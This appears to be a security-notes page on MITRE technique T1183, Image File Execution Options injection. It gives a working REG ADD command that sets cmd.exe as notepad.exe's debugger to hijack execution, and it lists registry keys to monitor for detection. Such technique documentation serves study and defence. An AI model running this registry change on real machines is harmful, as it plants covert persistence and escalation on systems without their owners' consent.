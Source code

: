 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode %}

Launching a notepad on the victim system:

![](../../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../../.gitbook/assets/ifeo-cmdline.png)

![](../../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" %}

